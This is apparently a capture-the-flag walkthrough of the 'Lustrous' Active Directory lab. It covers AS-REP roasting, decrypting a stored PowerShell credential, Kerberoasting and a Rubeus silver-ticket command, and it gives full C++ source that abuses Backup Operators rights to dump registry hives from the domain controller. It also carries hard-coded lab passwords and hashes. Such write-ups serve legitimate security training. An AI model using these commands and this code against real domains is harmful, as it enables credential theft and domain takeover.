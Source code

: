 # Lustrous (chain) (easy)


## port scan


![](walkthrough_20240411131333242.png)

![](walkthrough_20240411120000539.png)

## service enumeration

ftp allow anonymous login

![](walkthrough_20240411115748466.png)

some user directory

![](walkthrough_20240411115819698.png)

have a users.csv

![](walkthrough_20240411120158629.png)


![](walkthrough_20240411120215821.png)


![](walkthrough_20240411120549548.png)

## ASREPRoast

ben.cox user lack of Kerberos pre-authentication

![](walkthrough_20240411120752163.png)


![](walkthrough_20240411120959828.png)

we can winrm into LUSMS

![](walkthrough_20240411122234308.png)

## privilege escalation on lusms

there have admin.xml (PSCred)

![](walkthrough_20240411122350299.png)

we can use those powershell command get plain password

```powershell
$AdminCred = Import-Clixml -Path C:\users\ben.cox\desktop\admin.xml
$Password = $AdminCred.GetNetworkCredential().Password
```


![](walkthrough_20240411122957202.png)

![](walkthrough_20240411123200016.png)

## spn user

there are some service account

![](walkthrough_20240411125825486.png)

hashcat

![](walkthrough_20240411130043908.png)

now we have svc_web password

convert to hash

```bash
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "iydgTvmujl6f".encode("utf-16le")).digest()))'
```

![](walkthrough_20240411140926704.png)

## silver ticket 


![](walkthrough_20240411140823406.png)

the tony.ward is backup 

we can use rubeus to make a silver ticket login web page as `tony.ward` user. (those sid/id get from bloodhound)

```
dotnet inline-execute /opt/Rubeus.exe silver /service:http/lusdc.lustrous.vl /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /id:1114 /nowrap /ptt
```

![](walkthrough_20240411135910226.png)

```powershell
powershell Invoke-WebRequest -Uri http://lusdc.lustrous.vl/Internal -UseDefaultCredentials -UseBasicParsing | Select-Object -Expand Content
```

![](walkthrough_20240411140048121.png)





## abuse backup admin

there have a code can remote dump sam with backup user

https://github.com/Wh04m1001/Random/blob/main/BackupOperators.cpp 


```cpp
#include <stdio.h>
#include <windows.h>
 
void MakeToken() {
    HANDLE token;
    const char username[] = "tony.ward";
    const char password[] = "U_cPVQqEI50i1X";
    const char domain[] = "lustrous.vl";
 
    if (LogonUserA(username, domain, password, LOGON32_LOGON_NEW_CREDENTIALS, LOGON32_PROVIDER_DEFAULT, &token) == 0) {
        printf("LogonUserA: %d\n", GetLastError());
        exit(0);
    }
    if (ImpersonateLoggedOnUser(token) == 0) {
        printf("ImpersonateLoggedOnUser: %d\n", GetLastError());
        exit(0);
    }
}
 
int main()
{
    HKEY hklm;
    HKEY hkey;
    DWORD result;
    const char* hives[] = { "SAM","SYSTEM","SECURITY" };
    const char* files[] = { "C:\\windows\\temp\\sam.hive","C:\\windows\\temp\\system.hive","C:\\windows\\temp\\security.hive" };
     
    //Uncomment if using alternate credentials.
    MakeToken();
 
    result = RegConnectRegistryA("\\\\lusdc.lustrous.vl", HKEY_LOCAL_MACHINE,&hklm);
    if (result != 0) {
        printf("RegConnectRegistryW: %d\n", result);
        exit(0);
    }
    for (int i = 0; i < 3; i++) {
 
        printf("Dumping %s hive to %s\n", hives[i], files[i]);
        result = RegOpenKeyExA(hklm, hives[i], REG_OPTION_BACKUP_RESTORE | REG_OPTION_OPEN_LINK, KEY_READ, &hkey);
        if (result != 0) {
            printf("RegOpenKeyExA: %d\n", result);
            exit(0);
        }
        result = RegSaveKeyA(hkey, files[i], NULL);
        if (result != 0) {
            printf("RegSaveKeyA: %d\n", result);
            exit(0);
        }
    }
}

```

compile code

```bash
x86_64-w64-mingw32-g++ ./dump.cpp -o dump
```

those file will save at dc machine

![](walkthrough_20240411150636036.png)

we can use smbclient download those file

![](walkthrough_20240411150617663.png)


use pypykatz to get dc machine hash


![](walkthrough_20240411151014308.png)

dump all!

![](walkthrough_20240411151417319.png)


![](walkthrough_20240411151527456.png)
